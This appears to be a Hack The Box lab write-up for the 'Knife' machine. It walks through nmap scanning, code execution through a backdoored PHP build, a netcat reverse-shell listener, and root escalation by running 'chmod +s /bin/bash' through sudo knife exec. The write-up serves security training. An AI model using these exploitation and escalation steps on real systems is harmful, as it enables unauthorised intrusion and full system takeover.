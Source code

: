 ```yaml
---
title:     "Hack The Box - Knife"
tags: [linux,easy,php,backdoor,cve,chef-workstation,sudo]
categories: HackTheBox
---
```

[![info_card](/img/knife/info_card.png)](/img/knife/info_card.png)

Knife is an easy rated machine on HackTheBox by [MrKN16H](https://www.hackthebox.eu/home/users/profile/98767). For the user part we will abuse a backdoored php version and for root sudo rights on the `Chef Workstation` binary `knife`.

# User

## Nmap

As usual we start our enumeration off with an nmap scan against all ports, followed by a script and version detection scan against the open ones.

`All ports`
```
$ sudo nmap -p- -T4  10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:09 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.034s latency).
Not shown: 65526 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http

Nmap done: 1 IP address (1 host up) scanned in 1311.09 seconds
```

`Script and version`
```
$ sudo nmap -sC -sV -p 22,80 10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:33 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.10 seconds
```

## Php Zerodium

Looking at a request in burp we can see that the the server is powered by php. Checking for the recent [php backdoor](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/) we can see that it is indeed present on this system adding the required header in burp and calling the `id` command.

[![zerodium_poc](/img/knife/zerodium_poc.png)](/img/knife/zerodium_poc.png)

Having code execution on the server we can send a reverse shell in the next step. First we set up a listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Afterwards we send the reverse shell and upgrade it.

[![zerodium_revshell](/img/knife/zerodium_revshell.png)](/img/knife/zerodium_revshell.png)

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.243.
Ncat: Connection from 10.129.136.243:43786.
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

james@knife:/$
```

We can now read the user flag.

```
$ wc -c /home/james/user.txt
33 /home/james/user.txt
```

# Root

## Chef workstation

On a first glance, we can see that the user james can run the command knife as root.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

This belongs to [chef-workstation](https://downloads.chef.io/tools/workstation), a remote management tool.

```
james@knife:~$ ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

With this we can execute commands as the root user on the system and get to root easily by setting the suid bit on `bash`.

```
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'; bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
